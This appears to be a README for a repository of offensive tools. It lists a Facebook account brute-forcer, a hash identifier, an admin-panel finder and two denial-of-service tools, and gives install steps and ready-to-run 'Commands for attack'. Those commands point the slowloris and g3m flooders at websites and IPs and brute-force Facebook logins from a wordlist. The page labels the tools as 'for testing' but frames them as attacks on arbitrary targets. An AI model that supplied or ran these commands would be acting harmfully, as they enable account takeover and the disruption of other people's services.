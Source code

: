 ##################################################
# Scripts for testing ▶ Click Raw to see better. #
##################################################

fb-brute.pl = Bruteforce for Facebook
hash_id_v1.1.py = Hash Identifier
painel.pl = Admin Control Panel Finder
slowloris.pl = Denial of Service
g3m = Denial of Service

###########################
# How to Install and use. #
###########################

fb-brute.pl:
Intall = sudo chmod +x fb-brute.pl
Use = perl fb-brute.pl id-user-facebook wordlist.txt

hash_id_v1.1.py:
Install = sudo chmod +x hash_id_v1.1.py
Use = python2 hash_id_v1.1.py

painel.pl:
Install = sudo chmod +x painel.pl
Use = perl painel.pl

slowloris.pl:
Install = sudo chmod +x slowloris.pl
Use = Commands for attack:
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP

g3m:
Install = sudo chmod +x g3m
Use = Commands for Attack:
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites

